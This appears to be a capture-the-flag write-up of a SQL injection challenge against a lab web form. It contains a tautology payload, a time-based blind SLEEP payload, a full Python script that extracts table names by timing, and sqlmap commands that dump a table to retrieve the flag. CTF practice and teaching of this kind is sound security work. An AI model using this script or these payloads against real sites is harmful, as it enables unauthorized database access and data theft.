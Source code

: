 # SQL Injection

For this challenge, it asks us to do a sql injection to a form 
## Web First Look :

![image-20240824230451725](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240824230451725.png)

```mysql
$query_string = "SELECT * FROM melody_bu_shi_ji_lao WHERE id = " . $_GET['questionid'];
```

After seing this, I'm testing the most basic injection that is **1 or 1=1** and It printed out all 0-7 output

![21](C:\Users\ASUS\Desktop\Write Ups\images\21.png)

For the next step I then try to inject the time base attack and it work out with this format

```python
1 AND IF(ASCII(SUBSTRING(database(), 1, 1)) = 97, SLEEP(5), 0)
```

and it waited for 5 seconds, meaning the form is vulnerable to time based attacks, next step is to use python to retrieve the name of the database

```python
import requests
import time

# URL of the vulnerable page
url = "http://10.214.160.13:10002/"

# Set the parameter name that is vulnerable
param_name = "questionid"

# Function to extract a single character at a specific position
def extract_character(position, query):
    for ascii_value in range(32, 128):  # ASCII range for printable characters
        # Craft the payload to extract the character
        payload = f"1 AND IF(ASCII(SUBSTRING(({query}), {position}, 1)) = {ascii_value}, SLEEP(5), 0)"
        
        # Prepare the data for the GET request
        params = {param_name: payload}

        # Record the start time
        start_time = time.time()

        # Send the GET request
        response = requests.get(url, params=params)

        # Calculate the elapsed time
        elapsed_time = time.time() - start_time

        # Check if the elapsed time indicates a successful extraction
        if elapsed_time > 4:  # Adjust threshold if necessary
            return chr(ascii_value)
    
    return None

# Function to extract a table name
def extract_table_name(offset):
    query = f"SELECT table_name FROM information_schema.tables WHERE table_schema='aaa_web2' LIMIT 1 OFFSET {offset}"
    table_name = ""
    for position in range(1, 50):  # Assuming table names are less than 50 characters
        character = extract_character(position, query)
        if character:
            table_name += character
            print(f"Extracted character at position {position}: {character}")
        else:
            print(f"No more characters found at position {position}. Extraction complete.")
            break
    return table_name

# Extract all table names
offset = 0
while True:
    table_name = extract_table_name(offset)
    if table_name:
        print(f"Extracted table name: {table_name}")
        offset += 1
    else:
        print("No more tables found.")
        break

```

After running this code, we can see the database name

![image-20240824231049086](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240824231049086.png)

data base name is **aaa_web2**, let's use sql map to retreive the data inside the database, the website gives us clues where the flag is hidden inside the flag_is_here table, 

so the command should be 

```bash
sqlmap -u "http://10.214.160.13:10002/?questionid=1" -D aaa_web2 -T flag_is_here --columns
```

after running this command on terminal, 

![image-20240824231353042](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240824231353042.png)

We extracted 3 column, and now let's extract the column value of flag

```bash
sqlmap -u "http://10.214.160.13:10002/?questionid=1" -D aaa_web2 -T flag_is_here -C flag --dump
```

![image-20240824231509400](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240824231509400.png)

And we receive the flag.

**flag: AAA{welc0me_to_AAA_Congratu1ationS_qq_group_386796080}**